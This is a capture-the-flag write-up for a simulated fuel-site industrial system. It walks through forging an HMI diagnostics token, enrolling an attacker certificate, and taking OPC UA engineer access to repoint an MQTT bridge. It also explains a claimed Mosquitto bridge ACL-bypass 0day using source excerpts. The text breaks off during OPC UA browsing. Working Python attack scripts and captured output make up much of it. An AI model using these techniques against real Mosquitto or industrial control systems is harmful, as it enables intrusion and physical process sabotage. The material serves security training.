       <font size="10">Zero Broker</font>

29<sup>th</sup> March 2026

Prepared By: Lean

Challenge Author(s): Lean

Difficulty: <font color=red>Hard</font>

Classification: Official

# [Synopsis](#synopsis)

- Gas station OPCUA PLC + mosquitto MQTT + telnet HMI -> use guest HMI logs/help to recover the diagnostics formula and internal MQTT topic names -> fetch the retained salt from public MQTT and compute the override token -> unlock diagnostics and install an attacker-generated engineer certificate -> authenticate to OPCUA, enumerate the bridge and flag nodes, and repoint the MQTT bridge to an attacker broker -> exploit the Mosquitto bridge 0day to inject a forged client-only `SUBSCRIBE` and capture retained operator credentials from an internal topic -> log into the HMI as operator, raise the pressure setpoint above `260 kPa`, trigger the over-pressure alarm, and read the flag from OPCUA

## Description

Gabe has flagged this fuel-distribution site as the exact Nightfall nightmare. Pivot through the chain, seize operator authority, and trigger device states that when scaled can become national logistics leverage.*

## Skills Required

- Practical MQTT knowledge at packet level
- Comfortable use of OPC UA clients with certificate-based authentication
- Ability to script interactive telnet sessions
- Familiarity with retained messages, JSON payloads, and stateful protocols
- Confidence validating assumptions from observations instead of source access

## Skills Learned

- Turning publicly exposed retained MQTT data into an authentication primitive
- Using role-bound OPC UA writes to pivot between trust zones
- Exploiting bridge-session trust in Mosquitto to subscribe beyond intended scope
- Recovering operational credentials from internal retained topics
- Driving a simulated industrial process into a specific alarm condition on purpose

## Application Overview

From a black-box perspective the target exposes three relevant services. A telnet HMI listens on `2323`, a public MQTT broker listens on `1883`, and an OPC UA endpoint listens on `4840`. The HMI gives enough visibility to infer the intended operating model: diagnostics are protected by a challenge-response token, process telemetry is visible live, and the event stream repeatedly references a bridge that forwards `fleet/site-042/public/#` to a regional broker. The OPC UA server behaves differently depending on the certificate that is presented, which immediately suggests that authorization is tied to certificate identity and not to a username/password pair alone. The final objective is not just code execution or arbitrary state change; the target only releases the flag after the pressure process crosses a high-pressure threshold and the corresponding alarm condition becomes true.

What makes the challenge interesting is that no single surface gives complete control. Public MQTT leaks only enough state to solve the diagnostics challenge. The HMI can install a new engineer certificate, but only after the diagnostics override is solved correctly. OPC UA with that engineer certificate can repoint the bridge, but it still does not reveal operator credentials directly. The actual privilege escalation happens when the bridge is forced to connect to an attacker-controlled broker and the remote side abuses the bridge session itself to create an unauthorized server-side subscription into the internal topic tree.

## Technology Background

### MQTT in the Context of This Challenge

MQTT is a binary publish/subscribe protocol running over a long-lived TCP connection. Every client begins with a `CONNECT` packet and waits for a `CONNACK`. Subscriptions are then created with `SUBSCRIBE`, which carries one or more topic filters and requested QoS levels. Messages are delivered with `PUBLISH`. The challenge relies heavily on *retained* messages, because a retained publish is stored by the broker and replayed immediately to future subscribers whose filters match. That detail matters twice: first when the diagnostics salt is recovered from the public topic tree, and again when the operator credentials are received from an internal topic without waiting for a fresh publish cycle.

A broker bridge is still just MQTT spoken across a TCP socket, but the semantics are different. One broker opens a client session toward another broker and then treats that session as infrastructure rather than as an ordinary user. That is the exact trust boundary the exploit breaks. The configuration says what topic directions the local bridge should use, but the remote peer still has a bidirectional TCP stream and can send arbitrary MQTT control packets unless the implementation explicitly constrains them.

For official protocol references, the most useful starting points are the [MQTT specification index at mqtt.org](https://mqtt.org/mqtt-specification/) and the [OASIS MQTT v5.0 specification](https://docs.oasis-open.org/mqtt/mqtt/v5.0/mqtt-v5.0.html), which documents packet formats, QoS flows, retained messages, and session behavior in detail.

### OPC UA in the Context of This Challenge

OPC UA exposes a browsable address space instead of a flat REST or RPC interface. Objects, variables, and methods live under NodeIds such as `ns=2;s=Site.Control.Bridge.TargetHost`. In practice, that means the attack workflow is not "guess one endpoint and POST to it", but rather "connect with a given identity, browse, test reads, test writes, and observe what changes". The endpoint enforces `Basic256Sha256` with `SignAndEncrypt`, so the client must complete a full certificate-based secure-channel setup. The key black-box observation is that some certificates allow reads only, while the newly installed engineer certificate allows writes to bridge control nodes. That difference is enough to infer a role model even without seeing the server implementation.

For official further reading, the best references are the OPC Foundation's [Part 1: Overview and Concepts](https://reference.opcfoundation.org/Core/Part1/v104/docs/) for the address-space and session model, and [Part 4: Services](https://reference.opcfoundation.org/Core/Part4/v104/docs/) for the actual client/server service sets such as browse, read, write, and session establishment.

### Telnet HMI Workflow

The HMI is a menu-driven, line-oriented interface rather than a shell. That means automation is straightforward as long as prompts are synchronized correctly. Guest access is intentionally weak: it exposes process telemetry, diagnostics screens, and the event log. The event log leaks two crucial facts. First, it states that the diagnostics token is derived from `SHA256(<challenge>:<salt>)[:8]`. Second, it states that the broker bridge forwards `fleet/site-042/public/#`. Those two observations define the entire initial recon path: use guest access to read the live challenge, use public MQTT to read the live salt, then solve the override and install a higher-trust OPC UA identity.

## 0day - Bridge Servers Can Register Arbitrary Local Subscriptions with Client-Only `SUBSCRIBE`

From the outside, the site appears to rely on a simple trust model: public site telemetry is bridged outward to a regional broker, and the remote side should not be able to reach the internal site topic tree. The challenge breaks because the bridge session is trusted more broadly than the topic-direction configuration suggests. Once the site broker is repointed to a broker we control, our broker is no longer acting as a passive recipient. It becomes the remote endpoint of an already-authorized bridge session and can send its own MQTT control packets back down that same connection.

The expected interpretation of the bridge configuration is that `topic fleet/site-042/public/# out 0` means the local broker only exports that public subtree. That expectation is reasonable. If a defender sees `out`, they assume data movement is one-directional. The bug is that this policy is only used to decide what the local bridge session subscribes to when it connects; it does not prevent the remote peer from sending a fresh `SUBSCRIBE` later on. More importantly, `SUBSCRIBE` is a client-to-server control packet, so a broker on the far side of an outbound bridge should never be able to mutate the local subscription tree by sending it "backwards" over the connection. Because the socket is already tagged internally as a bridge context, that invalid packet is still processed with bridge trust.

### Why This Should Not Have Been Possible

Mosquitto's own bridge documentation describes topic direction from the local broker's perspective. For outgoing topics, the bridge subscribes locally and republishes remotely. For incoming topics, the bridge subscribes remotely and republishes locally. The important implication is that direction describes what the local bridge code will do during bridge setup, not what arbitrary packets from the far end will be allowed to request later. In a defensive reading of the docs, the far end of an `out` bridge should not be able to expand that scope by simply speaking more MQTT after the TCP session is established.

### Mosquitto Internals

The bridge behavior becomes clear when looking at the relevant upstream Mosquitto paths.

The first important detail is how a bridge context is created. In `src/bridge.c`, the broker allocates a normal client context and then marks it as a bridge-owned session:

```c
new_context->bridge = bridge;
new_context->is_bridge = true;
```

That assignment is local state on the site broker. It does not depend on what the remote endpoint does later. Once the outbound bridge TCP connection exists, every inbound packet received on that socket is processed in a context whose `bridge` pointer is already non-null.

The second important detail is that configured topic direction only decides what the local broker asks for when the bridge comes up. In `bridge__on_connect()` the broker sends remote subscriptions only for topics marked `in` or `both`, while `out` topics are handled by queuing local retained data:

```c
if(cur_topic->direction == bd_in || cur_topic->direction == bd_both){
    send__subscribe(context, NULL, 1, &cur_topic->remote_topic, sub_opts, NULL);
}
...
if(cur_topic->direction == bd_out || cur_topic->direction == bd_both){
    retain__queue(context, &sub);
}
```

This is exactly why the configuration appears safe at first glance. With only `out`, the local side should never ask the remote side for internal topics. Nothing in that code path, however, prevents the remote peer from initiating its own `SUBSCRIBE` later.

The third important detail is packet dispatch. In `src/read_handle.c`, inbound packets are handled by packet type, and `CMD_SUBSCRIBE` is routed into the normal subscribe handler:

```c
case CMD_SUBSCRIBE:
    rc = handle__subscribe(context);
    break;
```

There is no special check here that says "reject `SUBSCRIBE` when it arrives from the remote side of an outbound bridge". If the packet is syntactically valid and the session is active, the packet continues deeper into the broker. That packet-role validation gap is the exact condition highlighted in the original report.

The final and most important detail is the ACL decision in `src/plugin_acl_check.c`:

```c
if(context->bridge){
    return MOSQ_ERR_SUCCESS;
}
```

This short-circuit is what turns a weird protocol path into a real cross-boundary read primitive. `handle__subscribe()` asks `mosquitto_acl_check()` whether a requested subscription is allowed. Because the session is already a bridge context, the ACL check returns success before listener ACLs or plugin ACLs are consulted. The remote endpoint therefore inherits bridge trust simply by speaking on the existing bridge socket. In practical terms, a malicious remote broker can send `SUBSCRIBE fleet/site-042/internal/hmi/operator-credentials` and the site broker will install that subscription even though the public listener ACLs would never allow a normal external client to do so.

## Step-by-Step Attack Path

---

### Step 1 - Reach the HMI as Guest

The telnet service on `2323` is the first observable surface. A guest session is sufficient, because the challenge is designed around *information disclosure first, privilege escalation later*. On connection the HMI displays menus rather than a command prompt, so the attacker's job is to synchronize on textual markers such as `Username:`, `Password:`, and `Selection>`.

What matters technically is not the telnet protocol itself but the application-layer behavior behind it. Guest access exposes almost the entire operational picture except the privileged actions. The live dashboard shows current process values, bridge state, and the rolling event feed. Control Summary gives a stable snapshot of control mode, setpoint, pump state, and alarms. Bridge Status shows the currently configured bridge target and health. Event Log is the most important enumeration surface because it stores exactly the kind of "operator hint" strings that leak implementation details. Process Visualization gives a second, more alarm-focused view of pressure evolution. Control Diagnostics exposes the challenge token and accepts the response token. The Help screen explains the intended workflow in plain language, including where credentials are provisioned and what diagnostics is supposed to protect. In black-box exploitation this is a classic pattern: weak unauthenticated or low-privilege telemetry reveals enough of the design to solve a stronger control path elsewhere.

**Python snippet: establish a guest session and synchronize on the menu**

```python
from pwn import remote


class HmiSession:
    def __init__(self, host="127.0.0.1", port=2323, timeout=8):
        self.io = remote(host, port, timeout=timeout)

    def read_until(self, marker):
        return self.io.recvuntil(marker.encode(), timeout=8).decode("utf-8", "replace")

    def send_line(self, text):
        self.io.sendline(text.encode())

    def login_guest(self):
        self.read_until("Username:")
        self.send_line("guest")
        screen = self.io.recvrepeat(1.0).decode("utf-8", "replace")
        if "Password:" in screen:
            self.send_line("")
        menu = self.io.recvrepeat(1.5).decode("utf-8", "replace")
        if "Selection>" not in screen + menu:
            raise RuntimeError("Failed to reach HMI menu")


session = HmiSession()
session.login_guest()
```

At this point the useful guest workflow is to read both the Event Log and the Help screen before touching diagnostics. The Event Log reveals the challenge-response formula and the documented bridge direction. The Help screen discloses that operator credentials are provisioned through an internal MQTT topic and that engineer certificate installation is the intended bridge-maintenance function.

**Python snippet: enumerate the HMI disclosures that matter**

```python
session.send_line("4")  # Event Log
event_log = session.io.recvrepeat(1.5).decode("utf-8", "replace")
print(event_log)
session.send_line("")   # return to menu
session.read_until("Selection>")

session.send_line("h")  # Help
help_screen = session.io.recvrepeat(1.5).decode("utf-8", "replace")
print(help_screen)
session.send_line("")   # return to menu
session.read_until("Selection>")
```

The key confirmation is seeing strings that reference the diagnostics response formula, the bridge forwarding scope, and the internal credential topic. Those three observations define the rest of the chain.

**Validated guest HMI output**

```text
SITE 042 MAINTENANCE CONSOLE
ACTIVE USER: guest  |  TRUST: GUEST

1. Live Telemetry Dashboard
2. Control Summary
3. Bridge Status
4. Event Log
5. Process Visualization
6. Control Diagnostics
H. Help     Q. Quit
```

```text
CONTROL SUMMARY

Control Mode       AUTO
Setpoint           240.0 kPa
Pump Feedback      RUN
Pump Speed         56.5 %
Valve Position     47.3 %
Active Alarms      NONE
OPC UA Trust       GUEST
```

```text
BRIDGE STATUS

Target Host        regional-broker.internal
Target Port        1884
Status             idle
```

```text
EVENT LOG

21:13:38 MQTT: published to fleet/site-042/internal/hmi/operator-credentials
21:13:38 BROKER: bridge forwards fleet/site-042/public/# to regional broker
21:13:38 AUTH: response token = SHA256(<challenge>:<salt>)[:8]
```

```text
HELP

Diagnostics & Access
 - Diagnostics requires challenge-response token.
 - Token is 8-char SHA-256 of <challenge>:<salt>.
 - Operator creds provisioned via internal MQTT: fleet/site-042/internal/hmi/

Bridge Maintenance
 - Install engineer certificate to update bridge.
 - Bridge changes apply after restart.
```

The terminal width truncates the internal topic on the Help page, but the Event Log shows the complete string and removes the ambiguity.








---

### Step 2 - Extract the Diagnostics Challenge

The next step is to enter the diagnostics menu and read the live challenge token. The challenge appears as a six-character hexadecimal string such as `A1B2C3`. This value behaves like a server nonce. It is not sufficient by itself, and it changes often enough that cached responses are unreliable. That is why the attack reads it immediately before fetching the salt and calculating the token.

From a protocol perspective, nothing sensitive is modified here. The HMI is only revealing a volatile input that is later combined with external state from MQTT. The important lesson is that challenge-response systems become much weaker when one side of the formula is displayed locally and the other side is published over a broadly readable channel.

**Typical screen fragment:**

```text
Challenge  A1B2C3
Response Token:
```

**Python snippet: request diagnostics and extract the live challenge**

```python
import re


session.send_line("6")  # Control Diagnostics
screen = session.read_until("Response Token:")

match = re.search(r"Challenge\s+([A-F0-9]{6})", screen)
if not match:
    raise RuntimeError("Challenge not found")

challenge = match.group(1)
print(f"challenge = {challenge}")
```

**Validated diagnostics output**

```text
CONTROL DIAGNOSTICS

Challenge          16C9EB
Response Token:
```



The confirmation condition is simple: the output contains a stable six-hex-digit token that is not a placeholder such as `------` or `----`.

---

### Step 3 - Recover the Live Salt from Public MQTT

Now the attack leaves the HMI and talks directly to the public broker on `1883`. The public diagnostics salt topic is retained, which means a subscriber does not need to wait for the next periodic publish. As soon as a valid `SUBSCRIBE` reaches the broker, the broker immediately returns the latest retained `PUBLISH`. The same public broker also carries live process telemetry under `fleet/site-042/public/telemetry/hmi`, which is useful during recon because it confirms the topic naming convention and provides an independent view of pressure, setpoint, flow, and alarm state. The salt topic is the one that matters for privilege escalation; the telemetry topic is auxiliary situational awareness.

At packet level the interaction is straightforward. The client opens a TCP socket, sends `CONNECT`, waits for `CONNACK`, then sends a `SUBSCRIBE` for `fleet/site-042/public/diagnostics/salt`. The broker responds first with `SUBACK`, then with a `PUBLISH` carrying a JSON object whose `salt` field is the live value needed for the challenge formula.

For normal MQTT interaction, use a standard client library. In the writeup below I use `paho-mqtt` for ordinary subscribe/publish behavior and keep raw sockets only for the 0day step, where the whole point is to send packets that a normal MQTT broker implementation would not originate from the server side. Install it with `python -m pip install paho-mqtt`.

**Python snippet: retrieve the retained salt with `paho-mqtt`**

```python
import json
import threading
import paho.mqtt.client as mqtt


topic = "fleet/site-042/public/diagnostics/salt"
done = threading.Event()


def on_connect(client, userdata, flags, reason_code, properties):
    if reason_code != 0:
        raise RuntimeError(f"MQTT connect failed: {reason_code}")
    client.subscribe(topic, qos=0)


def on_message(client, userdata, msg):
    payload = json.loads(msg.payload.decode())
    print(f"topic = {msg.topic}")
    print(f"salt = {payload['salt']}")
    print(f"updated = {payload['updated']}")
    done.set()


client = mqtt.Client(
    callback_api_version=mqtt.CallbackAPIVersion.VERSION2,
    client_id="diag-helper",
)
client.on_connect = on_connect
client.on_message = on_message
client.connect("127.0.0.1", 1883, 60)
client.loop_start()

if not done.wait(5):
    raise RuntimeError("retained salt not received")

client.loop_stop()
client.disconnect()
```

If you also subscribe to `fleet/site-042/public/telemetry/hmi`, you will see non-retained operational JSON instead of the retained diagnostics material. That is useful to confirm that public MQTT is intentionally exposed for monitoring, while the salt topic is an accidental authentication dependency layered on top of that same trust boundary.

**Validated public MQTT enumeration**

```text
fleet/site-042/public/diagnostics/salt
{"salt":"012594CE","updated":1774818867.443507}

fleet/site-042/public/telemetry/hmi
{"timestamp":1774818887.802254,"tank_level":27868.7,"line_pressure":239.2,"flow_rate":162.4,"product_temp":16.5,"suction_pressure":90.2,"return_temp":16.9,"control_mode":"AUTO","setpoint":240.0,"pump_feedback":true,"pump_speed":55.1,"valve_position":45.3,"alarm_high_pressure":false,"alarm_high_level":false,"alarm_low_level":false,"alarm_flow_loss":false}
```



The confirmation signal is immediate delivery. If the topic is correct and retained, the salt arrives right after subscription. If nothing arrives, that almost always means the subscription filter is wrong or the broker is not reachable.

---

### Step 4 - Compute and Submit the Diagnostics Token

The event log already told us the formula: `SHA256(<challenge>:<salt>)[:8]`. The attack computes the digest over the literal string `challenge:salt`, takes the first eight hexadecimal characters, uppercases them, and submits that result into the diagnostics prompt. The formatting matters because the HMI compares exact text, not a binary digest.

For example, with challenge `A1B2C3` and salt `AB12CD34`, the attack computes and submits:

```python
import hashlib

challenge = "A1B2C3"
salt = "AB12CD34"
token = hashlib.sha256(f"{challenge}:{salt}".encode()).hexdigest()[:8].upper()
print(token)  # E2A1BB91

session.send_line(token)
reply = session.io.recvrepeat(2.0).decode("utf-8", "replace")
if "Override accepted" not in reply:
    raise RuntimeError("Diagnostics override failed")
```

The cryptographic weakness here is not SHA-256 itself. The weakness is that both inputs are attacker-readable through different low-privilege channels. The HMI provides the nonce and public MQTT provides the salt, so the response token becomes a reversible computation rather than a secret.

On success the HMI accepts the override and unlocks the engineer certificate installation flow. That state transition is the only confirmation that matters. A wrong response generally means the challenge or salt has gone stale, or whitespace/casing was entered incorrectly.

**Validated diagnostics response**

```text
CONTROL DIAGNOSTICS

Challenge          16C9EB
Response Token: 3A706953

Override accepted.
Engineer certificate maintenance unlocked.
```



---

### Step 5 - Install a New Engineer Certificate Through the HMI

Once the override is accepted, the HMI exposes a new maintenance action for engineer certificate enrollment. This step is where the trust boundary shifts. Instead of stealing an existing engineer certificate, the attacker simply enrolls a new one. The system implicitly trusts any certificate material accepted through this menu and associates it with the engineer role for OPC UA access. In practice the post-override interface unlocks a new maintenance entry, which is why the snippet below can select menu item `7` even though that option was not present in the original guest menu.

The attack generates a fresh self-signed RSA keypair and a matching X.509 certificate. The certificate does not need a publicly trusted chain because the target is using the certificate as an identity token inside its own trust store, not as a browser-style PKI statement. What matters is that the certificate and private key are syntactically valid PEM blocks and belong together.

**Python snippet: generate a fresh engineer certificate and stream the PEM blocks into the HMI**

```python
from cryptography import x509
from cryptography.hazmat.primitives import hashes, serialization
from cryptography.hazmat.primitives.asymmetric import rsa
from cryptography.x509.oid import NameOID
from datetime import datetime, timedelta


key = rsa.generate_private_key(public_exponent=65537, key_size=2048)
subject = x509.Name([x509.NameAttribute(NameOID.COMMON_NAME, "Site042 Engineer")])
cert = (
    x509.CertificateBuilder()
    .subject_name(subject)
    .issuer_name(subject)
    .public_key(key.public_key())
    .serial_number(x509.random_serial_number())
    .not_valid_before(datetime.utcnow() - timedelta(days=1))
    .not_valid_after(datetime.utcnow() + timedelta(days=3650))
    .add_extension(x509.BasicConstraints(ca=False, path_length=None), critical=True)
    .sign(key, hashes.SHA256())
)

cert_pem = cert.public_bytes(serialization.Encoding.PEM).decode()
key_pem = key.private_bytes(
    serialization.Encoding.PEM,
    serialization.PrivateFormat.PKCS8,
    serialization.NoEncryption(),
).decode()

session.send_line("7")  # install engineer certificate
session.read_until("Paste engineer certificate")
for line in cert_pem.strip().splitlines():
    session.send_line(line)

session.read_until("Paste engineer private key")
for line in key_pem.strip().splitlines():
    session.send_line(line)
```

The HMI confirms success with a message indicating that the engineer certificate has been installed and should be used from an external OPC UA client. If the HMI rejects the data as invalid PEM, the problem is formatting, not authorization.

**Validated HMI response**

```text
ENGINEER CERTIFICATE INSTALL

Paste engineer certificate (end with -----END CERTIFICATE-----)
Paste engineer private key (end with -----END ... PRIVATE KEY-----)

Engineer certificate installed. Use external OPC UA client.
```




---

### Step 6 - Connect to OPC UA as Engineer and Repoint the Bridge

With the new engineer certificate in hand, the attack moves to the OPC UA endpoint on `opc.tcp://127.0.0.1:4840`. The connection must use `Basic256Sha256` and `SignAndEncrypt`, which means the client needs the server certificate as well as its own certificate and key. After the secure channel is established, the address space is browsed to locate the nodes that matter operationally. The important observations are that `Site.Control.Bridge.TargetHost` and `Site.Control.Bridge.TargetPort` are writable with the engineer identity, `Site.Control.Bridge.Status` reflects the restart/reconnect cycle, `Site.IO.Status.FlagText` already exists but is empty before the unsafe condition is reached, `Site.Control.Auth.DiagnosticsChallenge` mirrors what the HMI shows, and the pressure and alarm nodes under `Site.IO` provide the process-state feedback used in the final stage.

The important point is that this browsing phase is not optional. Without it, the exploit would rely on guessed node names. In a black-box writeup the correct sequence is: authenticate, browse the namespace, identify which nodes are sensitive, test read access, then attempt writes only where role behavior suggests they should succeed.

**Python snippet: establish the secure OPC UA session and browse the relevant nodes before writing**

```python
from opcua import Client, ua
from opcua.crypto import security_policies, uacrypto
from cryptography import x509
from cryptography.hazmat.primitives import serialization


def connect_engineer(endpoint, cert_pem, key_pem):
    tmp = Client(endpoint, timeout=6)
    endpoints = tmp.connect_and_get_server_endpoints()
    chosen = Client.find_endpoint(
        endpoints,
        ua.MessageSecurityMode.SignAndEncrypt,
        security_policies.SecurityPolicyBasic256Sha256.URI,
    )
    server_cert = uacrypto.x509_from_der(chosen.ServerCertificate)
    client_cert = x509.load_pem_x509_certificate(cert_pem.encode())
    client_key = serialization.load_pem_private_key(key_pem.encode(), password=None)

    client = Client(endpoint)
    policy = security_policies.SecurityPolicyBasic256Sha256(
        server_cert,
        client_cert,
        client_key,
        ua.MessageSecurityMode.SignAndEncrypt,
    )
    client.security_policy = policy
    client.uaclient.set_security(policy)
    client.user_certificate = client_cert
    client.user_private_key = client_key
    client.connect()
    return client


def walk(node, depth=0, max_depth=3):
    print("  " * depth + node.get_browse_name().Name)
    if depth >= max_depth:
        return
    for child in node.get_children():
        walk(child, depth + 1, max_depth)


client = connect_engineer("opc.tcp://127.0.0.1:4840", cert_pem, key_pem)
objects = client.get_objects_node()
site = next(node for node in objects.get_children() if node.get_browse_name().Name == "Site")
walk(site, max_depth=3)

for node_id in [
    "ns=2;s=Site.Control.Bridge.TargetHost",
    "ns=2;s=Site.Control.Bridge.TargetPort",
    "ns=2;s=Site.Control.Bridge.Status",
    "ns=2;s=Site.IO.Status.FlagText",
    "ns=2;s=Site.Control.Auth.DiagnosticsChallenge",
    "ns=2;s=Site.IO.Outputs.SetpointKpa",
    "ns=2;s=Site.IO.Status.AlarmHighPressure",
    "ns=2;s=Site.IO.Inputs.LinePressureKpa",
]:
    node = client.get_node(node_id)
    print(node_id, "=>", node.get_value())
```

**Validated OPC UA browse output**

```text
Site
  IO
    Inputs
      TankLevelLitres
      LinePressureKpa
      FlowRateLpm
      ProductTempC
      SuctionPressureKpa
      ReturnTempC
    Outputs
      SetpointKpa
    Status
      ControlMode
      PumpFeedback
      PumpSpeedPct
      ValvePositionPct
      AlarmHighPressure
